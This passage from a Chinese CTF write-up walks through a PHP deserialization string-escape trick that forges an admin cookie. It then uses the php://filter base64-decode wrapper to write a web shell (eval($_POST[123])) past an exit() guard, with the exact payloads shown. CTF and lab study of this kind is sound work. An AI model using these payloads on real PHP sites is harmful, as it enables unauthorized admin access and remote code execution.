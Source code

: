 []: https://lisien11.xyz/2024/03/11/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8B%E5%AD%97%E7%AC%A6%E4%B8%B2%E9%80%83%E9%80%B8/	"php反序列化之字符串逃逸"

![image-20250708152109133](D:\ctf wp\201-240.assets\image-20250708152109133.png)

这是正常的cookie 如果username=";s:7:"isadmin";b:0;}那么序列化后就是

O:4:"User":2:{s:8:"username";s:21:"";s:7:"isadmin";b:0;}";s:7:"isadmin";b:0;}

为了让s的值与实际想等 就利用waf替换字符的特性 用'''''flag 会变成6个error 此时s凑到30，也与替换后相等了

**于是用'''''flag";s:7:"isadmin";b:1;}**逃逸拿到管理员权限O:4:"User":2:{s:8:"username";s:30:"'''''flag";s:7:"isadmin";b:1;}";s:7:"isadmin";b:0;}

接下来考虑写入 ![image-20250708152641195](D:\ctf wp\201-240.assets\image-20250708152641195.png)

源码中插入了<?php exit?>来屏蔽后面的php代码，使用伪协议`filter`写和base64解码特性卡掉后面的东西

filename=php://filter/convert.base64-decode/resource=./shell.php&txt=aPD9waHAgZXZhbCgkX1BPU1RbMTIzXSk/Pg==

后端和`<?php exit; ?>`拼上就是

<?php exit; ?>aPD9waHAgZXZhbCgkX1BPU1RbMTIzXSk/Pg==  base64解码后是 ¦^Æ+Z<?php eval($_POST[123])?>

最后构造paload查看shell.php post传入数据即可

![image-20250708153048192](D:\ctf wp\201-240.assets\image-20250708153048192.png)

最后求解 但我原本想的是抓包抓出cookie ：O:4:"User":2:{s:8:"username";s:3:"yjh";s:7:"isadmin";b:0;}，的b=0改成b=1 然后再sha256，凭借出新的cookie获得权限，但一直错误 其实是因为 服务器验证逻辑
服务器验证时会：

从 Cookie 中提取数据和签名
用相同密钥重新计算数据的签名
比较两个签名是否一致

如果攻击者直接修改 b:0; 为 b:1;，服务器计算的签名为：

```php
HMAC('O:4:"User":2:{s:8:"username";s:3:"yjh";s:7:"isadmin";b:1;}', $secretKey)
```



而 Cookie 中携带的签名是基于原始数据计算的：

```php
HMAC('O:4:"User":2:{s:8:"username";s:3:"yjh";s:7:"isadmin";b:0;}', $secretKey)
```

两者不匹配，验证失败。



## 240.[HCTF 2018]admin

![image-20250709144734905](D:\ctf wp\201-240.assets\image-20250709144734905.png)

看源码提示我不是管理员![image-20250709144712913](D:\ctf wp\201-240.assets\image-20250709144712913.png)
